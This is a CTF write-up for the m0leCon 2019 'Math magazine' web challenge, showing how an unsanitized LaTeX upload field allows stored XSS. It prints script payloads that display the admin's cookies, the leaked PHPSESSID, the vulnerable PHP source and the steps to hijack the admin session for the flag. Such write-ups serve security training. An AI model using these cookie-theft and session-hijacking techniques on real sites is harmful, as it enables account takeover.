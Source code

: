 # m0leCon CTF 2019 – Math magazine

* **Category:** web
* **Points:** 55

## Challenge

> Do you like math? Click here.
> Author: @andreossido
> http://10.255.0.1:8011/

## Solution

Connecting to the website you can see the following message.

```
Welcome!

This site is a math articles container.
At the moment you can only read your articles and write new ones.
Only admin can read other account articles, so pay attention what do you write :)
```

This website allows you to upload LaTeX documents and to list and view your uploaded ones. The view functionality doesn't escape/encode the output and the text field where you can write your LaTeX script doesn't sanitize the input; as a consequence, the website is vulnerable to XSS.

```latex
\documentclass{article}
\begin{document}

<script>alert();</script>

\end{document}
```

You can abuse this, in order to print administrator cookies, with the following payload.

```latex
\documentclass{article}
\begin{document}

<script>alert(document.cookie);</script>

\end{document}
```

When the article is submitted, the following output is shown.

```
WARN: Published, but admin cannot view you article :(
Error:
[*] Going to visit url: http://10.255.0.1:8011/?p=articles&a=view&u_id=f2c41083389d45ee757cc8f65eb2afd4&id=11
[*] Getting FLAG...

Alert Text: None
Message: unexpected alert open: {Alert text : PHPSESSID=aec0e26f10db41a5b584483bdc67dab1; FLAG=ptm{the_flag_is_not_here}}
(Session info: headless chrome=75.0.3770.100)
```

But the flag is not the real one.

Analyzing the HTML, you can discover the following interesting comment.

```html
<!--
    <li class="nav-item">
        (Not used anymore, but I left it here for historical reasons)
        <a class="nav-link" href="./src.zip">Source</a>
    </li>
-->
```

So you can download the [src.zip](src.zip) file.

Analyzing the [list](./src/pages/articles.actions/list) source code, you can discover an interesting `if` statement, where the real flag is set into a cookie.

```php
<?php
	if(isset($_COOKIE['FLAG']) && $_COOKIE['FLAG'] === FALSE_FLAG && $_SESSION['SECRET'] === SECRET){
		setCookie('FLAG', FLAG, time() + 100, '/');
	}

	$f = new ArticleFactory(USER);
?>
```

At this point you have already leaked the `FALSE_FLAG`, so you can force it into a cookie. You don't have `SECRET` value into your session, but you have the `PHPSESSID` of the administrator, so you can steal its session changing your cookie.

Crafting both cookies accordingly and accessing to the `list` functionality will give you the flag into the `FLAG` cookie.

```
ptm{L4t3x_1nj3ct10n_1s_c00l}
```

*Note*: According to the challenge creator, the technique to leak `PHPSESSID` and false `FLAG` was not the intended one.